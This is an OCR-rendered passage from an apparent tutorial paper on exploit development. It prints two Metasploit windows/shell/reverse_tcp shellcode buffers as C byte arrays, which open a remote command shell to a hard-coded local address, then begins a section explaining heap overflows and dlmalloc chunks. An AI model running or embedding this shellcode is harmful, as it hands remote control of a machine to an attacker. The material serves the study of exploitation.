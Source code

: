 ```
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30" "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff" "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2" "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85" "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3" "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d" "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58" "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b" "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff" "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68" "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01" "\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50" "\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a" "\x05\x68\xc0\xa8\x00\x01\x68\x02\x00\x00\x50\x89\xe6\x6a\x10" "\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e" "\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56" "\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10" "\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a" "\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6" "\x85\xf6\x75\xec\xc3"; 

- 
*  windows/shell/reverse_tcp - 240 bytes (stage 2) 

- 
*  http://www.metasploit.com 
*/

unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30" "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff" "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2" "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85" "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3" "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d" "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58" "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b" 

          "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"  "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x63\x6d\x64\x00\x89"   "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44" "\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56" "\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5" "\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb" "\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a" "\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"; 
```

The preceding shellcode has been generated using the “Metasploit Framework” which is an exploit development framework written in ruby which provides tools to dynamically generate shellcode of this nature. 

## 4.0 Heap Overflows 

## 4.1 The Heap

The heap is another data entity used to hold dynamically allocated data during the execution of the program, as well as global variables, and variables that are too large to store on the stack. Heap based storage is needed when the amount of size allocation and the lifetime of those stored values are not known at compile time. The result is dynamically allocated blocks of data within memory during the execution of the program. [1][7][8] 

Dynamic memory allocation is made possible by “allocators” provided by programming languages, such as C which provide functions for dynamically allocating and freeing memory. A function such as malloc() provides this functionality in memory allocations being provided by algorithms such as the dlmalloc() memory allocation algorithm in some (older) C based compilers. One important aspect of dlmalloc() is how blocks (known as chunks) are kept track of and identified. This is done through the use of “boundary tags” which are used to identify chunk based attributes. [1][8] The following depiction can assist in envisioning this: 

